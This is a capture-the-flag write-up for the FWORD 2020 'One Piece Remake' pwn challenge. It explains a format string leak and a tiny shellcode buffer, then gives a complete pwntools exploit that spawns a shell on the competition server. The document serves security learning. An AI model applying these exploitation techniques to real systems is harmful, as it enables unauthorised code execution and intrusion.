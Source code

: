 # FWORD CTF - One Piece Remake [pwn - 487p]

Note, i did not participate in the ctf, so i solved this challenge after the
ctf had ended.

Checksec reveals that its a 32 bit binary with executable stack. We can also
overwrite GOT if needed, as its only partial RELRO.  
```  
[*] '~/ctf/fword/one_piece_remake'  
   Arch:     i386-32-little  
   RELRO:    Partial RELRO  
   Stack:    No canary found  
   NX:       NX disabled  
   PIE:      No PIE (0x8048000)  
   RWX:      Has RWX segments  
```  
The menu is similar to the one piece challenge, we can read and run shellcode.
However the functionallity of the two are different. This time we are allowed
to read 5 bytes into a buffer using the read function, and we can actually
execute the 5 byte shellcode using the run command.

```c  
void readSC(void)

{  
 puts("Give me your devil-shellcode : ");  
 printf(">>");  
 read(0,&sc,5);  
 return 0;  
}

void runSC(void)

{  
__x86.get_pc_thunk.ax();  
 (*(code *)&sc)();  
 return;  
}  
```

if we look at the source code, we can see that there is a "hidden" option,
*gomugomunomi*, that calls the function *mugiwara*, also similar to the one
piece challenge.  
```c  
     iVar1 = strcmp(local_20,"gomugomunomi\n");  
     if (iVar1 != 0) break;  
     mugiwara();  
```  
The mugiwara function has a standard format string vulnerability that we can
use as a WriteWhatWhere primitive.

The easy way out would be to overwrite for example fgets with system, or a one
gadget to get a shell, but i dont think that is what the author intended.

```c  
void mugiwara(void)

{  
 char local_70 [104];  
  
 puts("what\'s your name pirate ?");  
 printf(">>");  
 read(0,local_70,100);  
 printf(local_70);  
 return 0;  
}  
```

## Exploit plan  
* Leak stack buffer address and write `execve /bin/sh` shellcode to the stack buffer  
* write a `jmp stack buffer` shellcode into the 5 byte shellcode buffer  
* execute shellcode using the `run` option

### Problem  
As the 100 byte buffer is on the stack, most of it gets overwritten when we
return back to the menu, there are only 16 bytes preserved when we get to run
our shellcode. So we cant use the default `shellcode.sh()` from pwntools which
requires more than 16 bytes.  
### Solution  
Leak libc using the format string vuln, and execute `system(/bin/sh)`, as it
only requires 16 bytes. (`push ptr_to_bin_sh_str; push fake_ret_addr; push
pointer_to_system; ret`).

## Solve script  
```python  
#!/usr/bin/env python  
# -*- coding: utf-8 -*-  
# This exploit template was generated via:  
# $ pwn template --host onepiece.fword.wtf --port 1236 ./one_piece_remake  
from pwn import *

# Set up pwntools for the correct architecture  
exe = context.binary = ELF('./one_piece_remake')  
context.terminal = ['tmux', 'splitw', '-h']  
# Many built-in settings can be controlled on the command-line and show up  
# in "args".  For example, to dump all data sent/received, and disable ASLR  
# for all created processes...  
# ./exploit.py DEBUG NOASLR  
# ./exploit.py GDB HOST=example.com PORT=4141  
host = args.HOST or 'onepiece.fword.wtf'  
port = int(args.PORT or 1236)

def local(argv=[], *a, **kw):  
   '''Execute the target binary locally'''  
   if args.GDB:  
       return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)  
   else:  
       return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):  
   '''Connect to the process on the remote host'''  
   io = connect(host, port)  
   if args.GDB:  
       gdb.attach(io, gdbscript=gdbscript)  
   return io

def start(argv=[], *a, **kw):  
   '''Start the exploit against the target.'''  
   if args.LOCAL:  
       return local(argv, *a, **kw)  
   else:  
       return remote(argv, *a, **kw)

# Specify your GDB script here for debugging  
# GDB will be launched if the exploit is run via e.g.  
# ./exploit.py GDB  
gdbscript = '''

b *runSC+22  
continue  
'''.format(**locals())

#===========================================================  
#                    EXPLOIT GOES HERE  
#===========================================================  
libc = ELF('libc6_2.30-0ubuntu2.1_i386.so')  
io = start()  
io.sendline('gomugomunomi')  
io.sendline(b'#%p#%11$p#') # leak buffer and libc address.  
io.recvuntil('#')  
buffer_adr = int(io.recvuntil('#')[:-1], 16)  
log.success('buffer @ {}'.format(hex(buffer_adr)))

libc_leak = int(io.recvuntil('#')[:-1], 16)  
libc.address = libc_leak -0x6fdb1  
log.success('libc base @ {}'.format(hex(libc.address)))  
io.recvuntil('>>')  
io.sendline('read')  
shellcode = "jmp {}".format(hex(buffer_adr)) #shellcode to jump to our buffer  
io.sendline(asm(shellcode,vma=0x804a038))  
io.recvuntil('>>')  
io.sendline('gomugomunomi')  
io.recvuntil('pirate ?')  
shellcode = "push {}; push {}; push {};
ret".format(hex(next(libc.search(b'/bin/sh\x00'))), hex(0xdeadc0de),
hex(libc.sym['system'])) #write our shellcode to the buffer  
io.sendline(asm(shellcode))  
io.recvuntil('>>')  
io.sendline('run') #execute shellcode  
io.recvuntil('>>')  
io.sendline('grep Fword flag.txt') # need to use grep as there is no cat on
the server ¯\_(ツ)_/¯  
io.interactive()  
```

Original writeup
(https://github.com/nordbo/writeups/tree/master/fword-2020/pwn/one_piece_remake).